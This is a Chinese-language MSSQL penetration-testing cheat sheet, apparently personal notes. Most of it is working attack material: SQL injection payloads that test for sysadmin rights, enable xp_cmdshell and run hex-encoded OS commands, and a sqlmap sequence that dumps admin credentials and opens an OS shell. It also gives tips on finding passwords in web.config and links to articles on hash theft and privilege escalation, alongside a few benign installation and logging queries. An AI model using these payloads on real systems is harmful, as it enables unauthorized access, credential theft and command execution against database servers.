 # SqlServer

端口 1433

**工具**

- SQLTools 2.0

## 注入

```sql
';declare @x char(9);set @x=0x303a303a35;waitfor delay @x--         # 例如我想执行延时5s，先将'0:0:5'转为十六进制 : 27303a303a3527
admin';declare @x char(9);if((select IS_SRVROLEMEMBER('sysadmin'))=1) waitfor delay '0:0:5'--   # 判断sa权限
# 开启xpcmshell：
admin';declare @x char(9);EXEC sp_configure 'show advanced options',1;RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;
# 判断开启xpcmdshell:
admin';declare @x char(9);if((select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell')=1) waitfor delay '0:0:4'--
# 执行命令, 16进制编码一下
admin';declare @x char(8000);set @x=0x70696e6720312e312e312e31;waitfor exec master..xp_cmdshell @x--
```

## SqlServer 2000 在 win7x64 安装条件

1.计算机名更改为全用大写字符就可以了。 2.设置 SETUPSQL.exe 兼容性为 winxp, 管理员身份证运行

## 转义

sqlsserver 用"" 来转义 "

## 删除/备份/导入导出

cracer.mdf
cracer_log.ldf

两个文件都要备份提取。

数据库 Path: C:\Progran Files\Microsoft SQL Server\MSSQL10_50.HSSOLSERVER\MSSQL\DATA

## 数据库权限

```
sa权限 - system
db权限 - users-adminstrators
public - guest-users
```

```bash
sqlmap -u http://url.php?id=1 --current-db --batch # 得到test
sqlmap -u http://url.php?id=1 --current-user
sqlmap -u http://url.php?id=1 --is-dba
sqlmap -u http://url.php?id=1 -D test --tables           # 得到admin
sqlmap -u http://url.php?id=1 -D test -T admin --columns # 得到admin,pass
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump --hex
sqlmap -u http://url.php?id=1 --os-shell
```

## config 密码等

在 asp web 的目录下

web.config

## 命令执行

方法一：xp_cmdshell

exec master..xp_cmdshell "whoami"默认执行是关闭

https://blog.csdn.net/weixin_30654583/article/details/97225375

## 查询语句

## 查询日志访问 ip/数据库

查询指定数据库

```sql
-- sqlserver
SELECT c.client_net_address, s.database_id, DB_NAME(s.database_id) AS database_name, s.login_name, s.login_time
FROM sys.dm_exec_connections AS c
JOIN sys.dm_exec_sessions AS s ON c.session_id = s.session_id
-- WHERE DB_NAME(s.database_id) = 'test1' -- 指定数据库
ORDER BY s.login_time DESC;

-- mysql
SELECT HOST, DB FROM information_schema.processlist

-- oracle
SELECT DISTINCT MACHINE, PROGRAM, LOGON_TIME FROM V$SESSION WHERE TYPE='USER' ORDER BY LOGON_TIME DESC;
```

# Article

[窃取 MSSQL 各版本密码 HASH](https://mp.weixin.qq.com/s/w9NqP4AqDth6sLbHAPF4AQ)
[sql server 提权总结](https://mp.weixin.qq.com/s/3Q6meWdMLfls5cK1j80tFw)
[MSSQL 注入和漏洞利用姿势总结](https://mp.weixin.qq.com/s/OakfrGRvYPYGFLY_30aj5w)
[红队必修课之针对 MSSQL 数据库攻击尝试](https://forum.butian.net/share/1390)
[关于 mssql 注入的知识分享](https://mp.weixin.qq.com/s/sXt9zd18lD4Al4OC3mmsKw)
[MSSQL 渗透 tips 总结](https://mp.weixin.qq.com/s/TjZGGQY9blMMv-ERtCklDw)

